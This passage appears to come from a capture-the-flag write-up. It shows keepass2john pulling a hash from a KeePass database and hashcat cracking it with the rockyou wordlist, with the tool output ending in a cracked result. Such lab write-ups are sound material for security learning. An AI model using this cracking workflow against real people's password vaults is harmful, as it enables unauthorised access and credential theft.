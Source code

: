 Nice.. now we have it. Let's let John take a rip at it and see if he can get us a hash...
```bash
keepass2john CEH.kdbx          
CEH:$keepass$*2*6000*0*1af405cc00f979ddb9bb387c4594fcea2fd01a6a0757c000e1873f3c71941d3d*3869fe357ff2d7db1555cc668d1d606b1dfaf02b9dba2621cbe9ecb63c7a4091*393c97beafd8a820db9142a6a94f03f6*b73766b61e656351c3aca028[...snip...]
```
Nice.. now we have something to crack, we can either crack this with John or we can use hashcat. Since I have a dedicated cracking rig, we'll use hashcat
```bash
hashcat -a 0 -m 13400 jeeves.keepass.hash /usr/share/wordlists/rockyou.txt
hashcat (v6.2.6) starting

CUDA API (CUDA 12.4)
====================
* Device #1: NVIDIA GeForce RTX 4080, 15830/16072 MB, 76MCU

OpenCL API (OpenCL 3.0 CUDA 12.4.131) - Platform #1 [NVIDIA Corporation]
========================================================================
* Device #2: NVIDIA GeForce RTX 4080, skipped

OpenCL API (OpenCL 3.0 PoCL 6.0+debian  Linux, None+Asserts, RELOC, SPIR-V, LLVM 18.1.8, SLEEF, DISTRO, POCL_DEBUG) - Platform #2 [The pocl project]
====================================================================================================================================================
* Device #3: cpu-haswell-Intel(R) Core(TM) i9-9900K CPU @ 3.60GHz, skipped

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Single-Hash
* Single-Salt

Watchdog: Temperature abort trigger set to 90c

Host memory required for this attack: 1459 MB

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344384
* Bytes.....: 139921497
* Keyspace..: 14344384

$keepass$*2*6000*0*1af405cc00f979ddb9bb387c4594fcea2fd01a6a0757c000e1873f3c71941d3d*3869fe357ff2d7db1555cc668d1d606b1dfaf02b9dba2621cbe9ecb63c7a4091*393c97beafd8a820db9142a6a94f03f6*b73766b61e656351c3aca0282f1617511031f0156089b6c5647de4671972fcff*[...snip...]:m[...snip...]
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 13400 (KeePass 1 (AES/Twofish) and KeePass 2 (AES))
Hash.Target......: $keepass$*2*6000*0*1af405cc00f979ddb9bb387c4594fcea...47db48
Time.Started.....: Thu Oct 23 22:28:31 2025 (1 sec)
Time.Estimated...: Thu Oct 23 22:28:32 2025 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   764.5 kH/s (8.21ms) @ Accel:16 Loops:512 Thr:64 Vec:1
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
```